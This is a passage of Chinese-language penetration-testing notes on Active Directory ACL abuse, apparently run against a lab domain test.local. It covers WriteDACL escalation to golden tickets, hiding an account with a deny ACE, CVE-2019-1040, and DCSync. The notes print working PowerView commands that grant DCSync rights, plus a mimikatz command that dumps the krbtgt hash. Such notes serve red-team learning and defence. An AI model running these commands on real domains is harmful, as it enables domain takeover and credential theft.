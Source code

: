 


提示Got WriteDACL permissions.如果加上mimikatz.exe一起使用,可以看到直接获取了krbtgt的HASH值，也就是说已经可以直接生成黄金票据了：
![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1612192699236-2ca31341-3ac2-4ce8-b2f7-d298400de769.png#align=left&display=inline&height=183&margin=%5Bobject%20Object%5D&name=image.png&originHeight=365&originWidth=1120&size=269184&status=done&style=none&width=560)
自动化工具缺点是面对大型的域,得分析到啥时候


DACL的隐身方式
设置一条拒绝完全控制的ACE
## ![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1612192921976-7358bc92-95a4-43dd-8204-3d3cbbe1f954.png#align=left&display=inline&height=419&margin=%5Bobject%20Object%5D&name=image.png&originHeight=837&originWidth=1120&size=365931&status=done&style=none&width=560)
```cpp
Get-DomainObjectAcl -Identity hideuser -domain test.local -Resolve
```
## 
## 
## CVE-2019-1040
[https://mp.weixin.qq.com/s/NEBi8NflfaEDL2qw1WIqZw](https://mp.weixin.qq.com/s/NEBi8NflfaEDL2qw1WIqZw)


### DCSYNC


DCSync需要什么权限

- 复制目录更改Replicating Directory Changes (DS-Replication-Get-Changes) 
- 复制目录更改所有Replicating Directory Changes All (DS-Replication-Get-Changes-All)（Exchange用的就是这个） 
- 正在复制筛选集中的目录更改Replicating Directory Changes In Filtered Set (rare, only required in some environments)

![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1612192317006-67a9a932-e372-46e9-a4d0-36822e503641.png#align=left&display=inline&height=120&margin=%5Bobject%20Object%5D&name=image.png&originHeight=240&originWidth=1150&size=228830&status=done&style=none&width=575)
```cpp
Add-DomainObjectAcl -TargetIdentity "DC=test,DC=local" -PrincipalIdentity zhangs -Rights DCSync
```
```cpp
然后使用zhangs进行DCSync，这里可以看到添加前后的变化：

.\mimikatz.exe "lsadump::dcsync /user:test\krbtgt" "exit"
```


